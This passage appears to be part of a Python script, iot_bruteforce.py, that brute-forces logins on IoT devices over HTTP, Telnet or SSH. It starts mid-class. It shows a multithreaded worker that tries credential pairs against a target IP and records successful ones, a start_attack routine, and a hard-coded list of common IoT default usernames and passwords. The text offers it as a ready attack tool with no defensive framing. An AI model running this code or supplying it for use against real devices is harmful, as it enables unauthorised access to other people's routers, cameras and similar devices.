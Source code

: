 ```bash
        while not self.queue.empty():
            try:
                username, password = self.queue.get(timeout=1)
                
                if self.test_credentials(username, password):
                    print(f"[SUCCESS] {username}:{password}")
                    self.found_credentials.append((username, password))
                else:
                    print(f"[FAILED] {username}:{password}")
                
                time.sleep(0.5)  # Rate limiting for IoT devices
                self.queue.task_done()
            except:
                break
    
    def start_attack(self):
        """Start the attack"""
        print(f"Starting {self.service_type} brute force against {self.target}")
        
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker)
            t.daemon = True
            t.start()
            threads.append(t)
        
        self.queue.join()
        print(f"Found {len(self.found_credentials)} valid credentials")

# Common IoT default credentials
iot_defaults = [
    ('admin', 'admin'),
    ('admin', 'password'),
    ('admin', ''),
    ('root', 'admin'),
    ('admin', '1234'),
    ('user', 'user'),
    ('guest', 'guest'),
    ('admin', 'pass'),
    ('root', 'root'),
    ('admin', 'admin123')
]

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 3:
        print("Usage: python3 iot_bruteforce.py <target_ip> <service_type>")
        print("Service types: http, telnet, ssh")
        sys.exit(1)
    
    target, service = sys.argv[1:3]
    bruteforcer = IoTBruteForcer(target, service, iot_defaults)
    bruteforcer.start_attack()
EOF
```

